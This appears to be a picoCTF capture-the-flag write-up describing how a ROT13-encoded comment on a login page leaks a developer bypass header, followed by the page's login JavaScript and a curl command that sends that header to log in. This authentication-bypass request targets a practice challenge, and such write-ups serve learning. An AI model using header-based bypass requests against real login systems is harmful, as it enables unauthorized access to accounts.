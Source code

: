 # URL
https://play.picoctf.org/practice/challenge/520
# Concept
* debug HTTP header
# Method of solve
* there's a ROT13 encoded message in the HTTP comments on the login page
* when translated, the message looks like this: `NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`
* this indicates that we should include this header when we try to login
* the app JavaScript code let us know what the format of the login POST request should look like:
```
<script>
        document.getElementById('loginForm').addEventListener('submit', function(event) {
            event.preventDefault();

            const formData = {
                email: document.getElementById('email').value,
                password: document.getElementById('password').value
            };

            fetch('/login', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/json'
                },
                body: JSON.stringify(formData)
            })
            .then(response => response.json())
            .then(data => {
                console.log(data);
                if (data.success) {
    prompt('Login successful!\nFlag:', data.flag);
} else {
    alert('Invalid credentials');
}

            })
            .catch(error => console.error('Error:', error));
        });
    </script>
```
* this lets us know it's looking for JSON data, and the key/values its looking for
* we can create the request in curl, and the command looks like this:
```
curl -v -X POST -H "X-Dev-Access: yes" -H "Content-Type: application/json" -d '{"email": "ctf-player@picoctf.org", "password": "test"}' http://amiable-citadel.picoctf.net:52911/login
```


